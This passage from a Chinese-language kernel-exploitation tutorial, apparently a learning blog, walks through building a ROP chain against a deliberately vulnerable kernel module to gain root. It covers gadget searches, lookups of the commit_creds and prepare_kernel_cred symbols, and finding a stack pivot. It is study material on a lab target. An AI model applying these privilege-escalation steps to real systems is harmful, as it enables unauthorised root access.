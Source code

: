 重新./configure  make  make install， 生成的bin文件在/usr/local/bin/目录下，可以将gdb覆盖到/usr/bin/完成patch

这样再次连接qemu的本地1234调试端口，即可正常patch了。

### 内核rop漏洞利用

对内核ROP的学习可以参考freebuf上翻译的两篇文章：
http://www.freebuf.com/articles/system/94198.html
http://www.freebuf.com/articles/system/135402.html

这个案例实现了一个存在栈溢出漏洞的内核模块，并通过ioctl的方式在用户态对内核进行攻击从而提升权限获取Root。

首先还是按照文章中的内容对内核镜像进行解压，寻找ROP gadget。具体步骤如下：
{% highlight shell %}

./extract-vmlinux linux-3.14.75/arch/x86/boot/bzImage > vmlinux
./ROPgadget.py --binary ./vmlinux > ropgadget
grep  ': pop rdi ; ret' ropgadget

{% endhighlight %}

通过这种方式，可以找到如下对应的ROP：

0xffffffff810d2f82 : pop rdi ; ret
0xffffffff81017ed7 : mov rdi, rax ; call rdx
0xffffffff81060d62 : pop rdx ; ret

随后，对linux kernel的内核符号进行查询：
{% highlight shell %}

cat /proc/kallsyms | grep  'prepare_kernel_cred'
cat /proc/kallsyms | grep  'commit_creds'

{% endhighlight %}

获取内核符号地址：
0xffffffff8109ea20  prepare_kernel_cred
0xffffffff8109e6e0  commit_creds

接下来需要寻找用来进行stack pivot的指令来将rsp寄存器设置为一个可控的值，并通过mmap的方式将ROP gadget写入对应的栈地址。这里需要注意保证8字节的对齐来确保可以通过offset正确的跳转到stack pivot指令。

利用案例提供的工具脚本可以找到一个可用的stack pivot指令以及对应的栈地址：

{% highlight shell %}

addr(ops) = ffffffff821a0440
cat ropgadget | grep ': xchg eax, esp ; ret' > gadgets
./find_offset.py 0xffffffff821a0440 ./gadgets

offset = 18446744073707465188
gadget = xchg eax, esp ; ret 0x148d
stack addr = 811b5360

{% endhighlight %}

最后需要构造一个iret的栈布局来确保控制流从内核空间正确返回到用户空间。

iretq指令的获取命令如下：
{% highlight shell %}

objdump -j .text -d ~/vmlinux | grep iretq | head -1

{% endhighlight %}
